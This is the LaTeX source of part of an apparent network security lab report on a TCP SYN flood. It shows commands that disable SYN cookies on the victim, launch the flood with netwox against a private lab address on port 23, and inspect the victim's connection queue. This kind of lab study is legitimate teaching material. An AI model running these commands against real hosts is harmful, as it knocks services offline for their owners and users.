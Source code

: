 \documentclass[12pt]{article}
\begin{document}
\vspace{0.5in}

\noindent
Turn off the SYN cookie mechanism.

\begin{framed}
    \begin{verbatim}
sudo sysctl -w net.ipv4.tcp_syncookies=0
sudo sysctl -a | grep cookie
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    \includegraphics[width=1\textwidth]{tcp-cookie-off.png}
\end{figure}

\vspace{0.5in}

\noindent
Relaunch the attack from the attacker to the victim.

\begin{framed}
    \begin{verbatim}
sudo netwox 76 -i 10.0.2.5 -p 23 -s raw
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    \includegraphics[width=1\textwidth]{tcp-attack-on.png}
\end{figure}



\newpage

\noindent
Check the queue of the victim.

\begin{framed}
    \begin{verbatim}
netstat -tna
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    \includegraphics[width=1\textwidth]{tcp-victim-off.png}
\end{figure}
\dots
\end{document}
